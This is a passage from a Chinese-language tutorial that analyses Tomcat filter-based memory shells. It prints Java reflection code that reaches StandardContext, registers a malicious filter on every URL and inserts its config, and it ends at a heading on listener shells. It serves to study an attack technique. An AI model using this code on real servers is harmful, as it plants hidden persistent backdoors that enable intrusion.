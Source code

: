 ```java  
        String characters = &#34;abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ&#34;;  
        StringBuilder randomString = new StringBuilder();  
        for (int i = 0; i &lt; 8; i&#43;&#43;) {  
            int index = (int) (Math.random() * characters.length());  
            randomString.append(characters.charAt(index));  
        }  
        return randomString.toString();  
    }  
%&gt;  
&lt;/body&gt;  
&lt;/html&gt;  
```  
#### filter内存马分析  
```java  
ServletContext servletContext = request.getSession().getServletContext();    
Field appctx = servletContext.getClass().getDeclaredField(&#34;context&#34;);    
appctx.setAccessible(true);    
ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);    
Field stdctx = applicationContext.getClass().getDeclaredField(&#34;context&#34;);    
stdctx.setAccessible(true);    
StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);    
Field filterConfigsField = standardContext.getClass().getDeclaredField(&#34;filterConfigs&#34;);    
filterConfigsField.setAccessible(true);    
Map filterConfigs = (Map) filterConfigsField.get(standardContext);  
```  
显示获取`servlet`上下文并拿到其私有字段`context`，然后设置可访问，这样就可以通过反射这个`context`字段的值，这个值是一个`ApplicationContext`对象；接着获取`ApplicationContext`的私有字段`context`并设置可访问，然后通过反射获取`ApplicationContext`的`context`字段的值，这个值是一个`StandardContext`对象；  
最后是获取`StandardContext`的私有字段`filterConfigs`，设置可访问之后通过反射获取`StandardContext`的`filterConfigs`字段的值  
中间构造恶意`filter`，并且在最后加上`filterChain.doFilter`  
```java  
FilterDef filterDef = new FilterDef();  
filterDef.setFilterName(filterName);  
filterDef.setFilterClass(filter.getClass().getName());  
filterDef.setFilter(filter);  
standardContext.addFilterDef(filterDef);  
FilterMap filterMap = new FilterMap();  
filterMap.setFilterName(filterName);  
filterMap.addURLPattern(&#34;/*&#34;);  
filterMap.setDispatcher(DispatcherType.REQUEST.name());  
standardContext.addFilterMapBefore(filterMap);  
Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);  
constructor.setAccessible(true);  
ApplicationFilterConfig applicationFilterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);  
filterConfigs.put(filterName, applicationFilterConfig);  
```  
也就是定义`filterDef`和`filterMap`并加入到`standardContext`中，接着反射获取`ApplicationFilterConfig`类的构造函数并将构造函数设置可访问，然后创建了一个`ApplicationFilterConfig`对象的实例，接着将刚刚创建的实例添加到过滤器配置的`Map`中，`filterName`为键，这样就可以将动态创建的过滤器配置信息加入到应用程序的全局配置中。  
需要注意的是，在`tomcat 7`及以前`FilterDef`和`FilterMap`这两个类所属的包名是  
```java  
&lt;%@ page import=&#34;org.apache.catalina.deploy.FilterMap&#34; %&gt;  
&lt;%@ page import=&#34;org.apache.catalina.deploy.FilterDef&#34; %&gt;  
```  
`tomcat 8`及以后，包名是这样的  
```java  
&lt;%@ page import=&#34;org.apache.tomcat.util.descriptor.web.FilterMap&#34; %&gt;  
&lt;%@ page import=&#34;org.apache.tomcat.util.descriptor.web.FilterDef&#34; %&gt;  
```  
### Listener内存马  